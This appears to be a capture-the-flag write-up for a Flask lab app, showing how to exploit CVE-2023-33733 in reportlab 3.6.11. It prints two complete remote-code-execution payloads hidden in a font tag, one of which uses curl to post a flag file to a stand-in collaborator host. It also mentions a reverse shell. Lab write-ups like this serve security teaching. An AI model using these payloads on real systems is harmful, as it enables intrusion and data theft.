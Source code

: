 # BharatPatholabs-Access 
# Author: [Shlok](https://github.com/pphreak-1001)
## Goal
Exploit the vulnerable version of Reportlab library being used in the application.

## Vulnerabilities

- Access /robots.txt 
```
# robots.txt
User-agent: *
Allow: /

#requirements
#Flask==2.3.2
#Flask-Bcrypt==1.0.1
#reportlab==3.6.11
```
- Google reportlab==3.6.11 exploit, you will land at: https://arcticwolf.com/resources/blog/cve-2023-33733-rce-vulnerability-in-reportlab-pdf-toolkit/
, https://github.com/c53elyas/CVE-2023-33733

## Solution

- Create a report and add the payload in the report description feature or final result section as:

```
<font color="[[[getattr(pow, Word('__globals__'))['os'].system('touch /tmp/exploited') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font>
```

I used some regex to restrict other commands but that was actually easily bypassable. 
You can even get a reverse shell on this application. The intended solution was to fetch the content of /var/flag/flag.txt and send it to your server.

```
<font color="[[[getattr(pow, Word('__globals__'))['os'].system('curl --data @/var/flag/flag.txt -X POST burpcollaburl') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font>
```
